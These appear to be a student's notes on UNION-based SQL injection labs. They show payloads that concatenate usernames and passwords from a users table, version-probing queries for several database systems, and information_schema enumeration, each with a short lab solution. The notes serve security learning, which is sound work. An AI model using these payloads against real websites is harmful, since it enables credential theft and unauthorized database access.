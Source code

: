 
---

**Retrieving multiple values within single column :**

in above example, we got username and password as different columns, if we want them both togather with concatenate them. 

SQL query : `' UNION SELECT username || ' : ' || password FROM users--` (for Oracle DB)

Different DB's uses different structures so refer SQL Cheat sheet mentioned above.

- LAB Solution :
    
    as mentioned we have to concat username & password from users table. first find number of columns, i got it 2
    
    imp note : when we write query must take in mind that we can't manipulate number of columns. 
    
    so for 2 columns SQL Query to append in URL is : `' UNION SELECT NULL, username||' : '||password FROM users--` 
    
    (another mistake is in || || don't use " ", use only ' ')
    
    result will be in username : password form after concatenation. take password and login to solve lab!
    

---

### 4 . Examine the Database :

where you can extract information about the version and structure of the database.

**Querying Database type and version :**

different database have different ways of querying their version. probe different structures defined below to find version using UNION.

MSSQL,MySQL : ' UNION SELECT @@version-- 

Oracle : ' UNION SELECT banner FROM v$version-- or ' UNION SELECT version FROM v$instance--

PostgreSQL : ' UNION SELECT version()--

- LAB Solution 1 :
    
    use second payload but remember number of columns can't be changed
    
- LAB Solution 2 :
    
    use first payload but remember number of columns can't be changed
    

**Listing contents of the database :**

we don't know name of tables or columns yet, every database except Oracle provides method `information_schema` to retrieve table names and column names use them to retrieve further data.

*For Tables :*

`SELECT table_name,y,.. FROM information_schema.tables--` 
